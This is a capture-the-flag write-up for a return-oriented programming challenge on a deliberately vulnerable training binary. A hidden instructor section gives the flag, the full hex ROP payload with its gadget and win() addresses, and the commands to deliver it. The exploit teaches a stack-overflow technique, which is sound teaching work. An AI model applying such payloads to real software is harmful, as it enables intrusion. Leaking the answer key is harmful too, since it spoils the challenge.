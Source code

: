 # Writeup

This is a Return-Oriented Programming Challenge (ROP) in assemply. The goal is to execute the function `win()`, while putting the value "3" in rax, and the value "2" in rbx.
For this challenge, you are provided with a binary called "rop" where the challenge takes place, and an auxiliary binary called "hex2raw" which converts a hex string to raw bytes. Credit goes to the creators of the CMU attack lab for the creation of the hex2raw binary.

The binary was compiled as follows: gcc -o rop rop.c -fno-stack-protector -no-pie -z execstack

Notice there is no stack protection, so we can overwrite the return address of the function `bof()` with the address of `win()`. However, we need to put the values "3" and "2" in rax and rbx respectively, so we need to find a way to do that.

hex2raw takes a .txt file, and converts it to raw bytes. The file should be in individual hex bytes separated by spaces.
For example, proper formating of an input file "test.txt" could be:
```
48 89 e5 48 83 ec 10 48 8d 3d 00 00 00 00 48 8d
35 00 00 00 00 48 89 c7 48 89 d8 48 89 f9 48 89
da 48 89 fb 48 89 fc 48 89 fd 48 89 fe 48 89 ff
48 89 c6 b0 03 48 89 df b0 02 0f 05
```

The size of the buffer to be overflowed is 40 bytes.

gdb is your best friend in the entire world for this challenge. You can use it to disassemble the binary, and find the addresses of the gadgets you need.

If you try to cheat, say by artifically injecting values into the registers with gdb and skipping some checks, your flag will not be the correct one, so be careful.

Good luck!

# Not for students:

The flag is: CTF_SDaT{AW3s0m3_J0b_0n_th3_Ch4113ng3}

The challenge is solved by producing an input string that will overwrite the return address of the function `bof()` with the address of `win()`, and also put the values "3" and "2" in rax and rbx respectively.

To do so, we create an input file "input.txt" with the following content:
```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 4c 14 40 00 00 00 00 00 03 00 00 00 00 00 00 00 14 15 40 00 00 00 00 00 02 00 00 00 00 00 00 00 96 11 40 00 00 00 00 00 

```

Where the first 40 bytes are filler, the next 8 bytes are the address of a gadget that pops rax, the next 8 bytes are the value "3", the next 8 bytes are the address of a gadget that pops rbx, the next 8 bytes are the value "2", and the last 8 bytes are the address of `win()`.

The address of the gadget that pops rax is 0x0040144c, and the address of the gadget that pops rbx is 0x00401514.

The address of `win()` is 0x00401196.

The input file is then converted to raw bytes with the following command:
```
./hex2raw < input.txt > raw.txt
```

The raw bytes are then piped into the binary with the following command:
```
./rop < raw.txt
```
